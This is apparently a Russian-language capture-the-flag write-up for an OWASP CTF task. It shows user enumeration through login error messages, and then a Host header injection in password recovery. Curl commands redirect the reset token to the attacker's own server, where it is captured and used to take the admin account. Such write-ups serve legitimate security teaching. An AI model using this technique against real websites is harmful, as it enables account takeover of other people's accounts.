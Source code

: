 # Odessa (18.owaspctf.gq)

На главной странице видим игру 2048 на javascript, на всякий случай проверяем исходный код но ничего кроме самой игры на странице нет.

dirb находит директорию `/admin/` с логин формой. В начале формы есть строка `Admin ctfCorp.com`.
Если попробовать комбинацию логин пароль `admin@ctfcorp.com:password` получаем ошибку `Wrong password`.
Если поменять логин на любой другой то ошибка будет `User does not exist`.

Помимо формы для авторизации, так же есть форма для восстановления пароля `http://18.owaspctf.gq/admin/recovery.php`.
Если передать правильный логин получаем сообщение: `We sent you a recovery link like http://18.owaspctf.gq/admin/recovery.php?token=xxxxxx to your email`

В ходе решения других заданий было замечено что `18.owaspctf.gq` является дефолтным виртуальным хостом у веб-сервера.
То есть если обратиться к несуществующему виртуальному хосту мы все равно попадаем на 18-ое задание.

```
$ dig +short a 18.owaspctf.gq
104.248.93.50
$ curl --silent -H 'Host: foobar' 'http://104.248.93.50/admin/' | grep ctf
  <h1>Admin ctfCorp.com Log in</h1>
```

Попробуем изменить хедер Host при отправке POST запроса на сброс пароля:
```
$ curl --silent -H 'Host: foobar' 'http://104.248.93.50/admin/recovery.php' --data 'email=admin@ctfcorp.com&go=Recover' | grep 'foobar'
  <p>We sent you a recovery link like http://foobar/admin/recovery.php?token=xxxxxx to your email</p><br>  <p class="p-container">
```

Запускаем `tcpdump` на своем сервере и повторяем процедуру заменив foobar на ip сервера. Видим попытку подключения на 80 порт.
Открываем 80 порт и опять повторяем запрос. Получаем запрос содержащий токен. Отправляем токен на сервер задания.

`FLAG{I_hope_it_was_not_a_bruteforce}`
